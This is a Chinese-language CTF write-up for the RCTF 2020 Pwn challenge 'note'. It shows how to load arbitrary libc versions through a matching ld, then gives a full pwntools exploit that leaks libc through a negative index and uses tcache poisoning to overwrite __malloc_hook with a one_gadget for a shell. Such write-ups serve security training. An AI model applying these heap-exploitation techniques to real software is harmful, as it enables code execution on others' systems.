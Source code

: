 ```yaml
---
title: RCTF 2020 Pwn note
date: 2020-06-01 00:00:00
categories:
- CTF/Pwn
tags:  TcachePoisoning 堆溢出 任意libc版本
---
```


> 漏洞点为**索引没有过滤负数**以及**堆溢出**。利用方法为首先通过负数索引泄露libc，然后构造堆溢出到tcache的fd为`__malloc_hook`的地址，再触发两次对应大小的malloc即可实现任意地址写，写入`one_gadget`即可。另外题目环境为`libc2.29`，本文还使用了`ld-2.29.so`直接加载题目的方式，介绍了在任意版本的ubuntu下做任意libc版本Pwn题的方法。

题目附件：[note_attachment.zip](https://xuanxuanblingbling.github.io/assets/attachment/note_attachment.zip)

## 任意libc版本运行

首先查看libc的版本，在无法直接运行libc时，可以直接看libc的字符串：

```bash
➜  strings libc.so.6 | grep GNU
GNU C Library (Ubuntu GLIBC 2.29-0ubuntu2) stable release version 2.29.
Compiled by GNU CC version 8.3.0.
```

本题原始附件中是没有给出`ld-2.29.so`的，在这种情景下，我们是无法在没有完整安装`libc2.29`的环境下加载题目中的`libc.so.6`的，我们可以直接运行一下：

```bash
➜  uname -a
Linux ubuntu 4.15.0-99-generic #100~16.04.1-Ubuntu SMP Wed Apr 22 23:56:30 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
➜  ./libc.so.6
[1]    101643 segmentation fault (core dumped)  ./libc.so.6
```

但是如果运行`ld-2.29.so`并且将`libc.so.6`作为参数即可运行：

```bash
➜  ./ld-2.29.so libc.so.6 
GNU C Library (Ubuntu GLIBC 2.23-0ubuntu11) stable release version 2.23, by Roland McGrath et al.
Copyright (C) 2016 Free Software Foundation, Inc.
This is free software; see the source for copying conditions.
There is NO warranty; not even for MERCHANTABILITY or FITNESS FOR A
PARTICULAR PURPOSE.
Compiled by GNU CC version 5.4.0 20160609.
Available extensions:
	crypt add-on version 2.1 by Michael Glad and others
	GNU Libidn by Simon Josefsson
	Native POSIX Threads Library by Ulrich Drepper et al
	BIND-8.2.3-T5B
libc ABIs: UNIQUE IFUNC
For bug reporting instructions, please see:
<https://bugs.launchpad.net/ubuntu/+source/glibc/+bugs>.
```

背后的原因是ld和libc要配套，而且可以通过`ldd`工具查看二者背后依赖的库：

```bash
➜  ldd ./libc.so.6
	/lib64/ld-linux-x86-64.so.2 (0x00007f02902f9000)
	linux-vdso.so.1 =>  (0x00007fffa430d000)
➜  ldd ./ld-2.29.so 
	statically linked
```

可见，libc也是依赖ld的，而ld是一个静态链接的库，`linux-vdso.so.1`是linux64位下都有的，故按道理只要在任意64位linux发行版中，只要系统调用满足，都可以使用如上的方式加载任意版本的libc，那么如何加载程序呢？和我这篇文章：[IDA动态调试：arm架构的IoT设备上运行armlinux_server错误的一种解决办法](https://xuanxuanblingbling.github.io/ctf/tools/2020/04/19/armida/)，给出的方法相同，通过运行ld，目标程序当做ld的参数，并通过环境变量`LD_PRELOAD`设置libc即可：

```bash
➜  LD_PRELOAD=./libc.so.6 ./ld-2.29.so ./note 
=========Welcome to NOTE shop!=========
1.New a note
2.Sell a note
3.Show a note
4.Edit a note
5.Exit
======================================
Choice: 
```

可以另开一个shell检查这个进程的内存映射：`/proc/pid/maps`，观察的确是加载的当前目录的libc以及ld，那在pwntools里怎么使用呢？一个道理：

```python
from pwn import *
context(arch='amd64',os='linux',log_level='debug')
myelf  = ELF("./note")
libc   = ELF("./x64/2.29/libc-2.29.so")
ld     = ELF("./x64/2.29/ld-2.29.so")
io     = process(argv=[ld.path,myelf.path],env={"LD_PRELOAD" : libc.path})
gdb.attach(io,"vmmap")
io.interactive()
```

另外在天舒的提示下知道了可以在这里获取各个版本的libc以及ld：[glibc package in Ubuntu](https://launchpad.net/ubuntu/+source/glibc/)，进入每个版本的libc右侧的amd64选项，然后即可看到相应的deb包，下载并在ubuntu中使用`dpkg -X xxx.deb ./dir/`解压，即可在相应目录下找到对应版本的libc以及ld。

这里我已经做好了收集工作：[ubuntu不同版本的libc以及ld整理](https://github.com/xuanxuanblingbling/ubuntu_libc_ld)

## 解题

- 通过`-5`索引，在data段正好能访问到本段地址，便可以把数据段中的内容打印出来，包含着libc相关
- 还可以通过`-5`索引，拿到data段的内存写，故可以任意修改money
- 构造好tcache，通过隐藏功能7，溢出到tcache的fd
- 由于calloc不用tcache，所以需要触发malloc
- 程序中只有隐藏功能6是malloc，而且大小是0x50，故之前构造的tcache的大小也需要是0x50
- 隐藏功能6会检查一个全局变量，不过使用`-5`仍然能覆盖到
- 修改金钱，调用两次malloc，写入one_gadget，然后再加一次钱，最后调一次malloc即可触发getshell

```python
from pwn import *
context(arch='amd64',os='linux',log_level='debug')
myelf  = ELF("./note")
libc   = ELF("./libc.so.6")
ld     = ELF("./ld-2.29.so")
io     = process(argv=[ld.path,myelf.path],env={"LD_PRELOAD" : libc.path})
#io     = remote("124.156.135.103",6004)

sla         = lambda delim,data           :  (io.sendlineafter(delim, data))
sa          = lambda delim,data           :  (io.sendafter(delim, data))
new         = lambda index,size           :  (sla("Choice: ","1"),sla("Index: ",str(index)),sla("Size: ",str(size)))
sell        = lambda index                :  (sla("Choice: ","2"),sla("Index: ",str(index)))
show        = lambda index                :  (sla("Choice: ","3"),sla("Index: ",str(index)))
edit        = lambda index,message        :  (sla("Choice: ","4"),sla("Index: ",str(index)),sla("Message: \n",message))
name        = lambda name                 :  (sla("Choice: ","6"),sla("name: \n",name))
overedit    = lambda index,message        :  (sla("Choice: ","7"),sla("Index: ",str(index)),sa("Message: \n",message))

# leak libc & bss
show(-5)
data_addr     = u64(io.recv(8)) ; io.recv(16)
libc.address  = u64(io.recv(8)) - 0x1e5760
one_gadget    = libc.address+0xe237f
show(-5); bss = io.recv(0x70)

# use -5 to set money and over the one time chance
setmoney        = lambda money             :  (edit(-5,p64(data_addr)+p64(money)))
overflow        = lambda idx,data          :  (edit(-5,p64(data_addr)+p64(0x996)+p32(1)),overedit(idx,data))

# set money to allow new and name function
New             = lambda idx,size          :  (setmoney(0x99600),new(idx,size))
Name            = lambda data              :  (setmoney(0x9960000),name(data),edit(-5,bss))

# use tcache poisoning to arbitrary address write
def aaw(addr,data):
    New(0,0x50);New(1,0x50);sell(1)             # put one chunk to tcache list
    overflow(0,"1"*0x58+p64(0x61)+p64(addr))    # overflow tcache fd to addr
    Name("a")                                   # use malloc to get addr
    Name(data)                                  # modify addr content to data

# modify __malloc_hook to onegadget and trigger it
aaw(libc.symbols['__malloc_hook'],p64(one_gadget))
setmoney(0x9960000);sla("Choice: ","6")
io.interactive()
```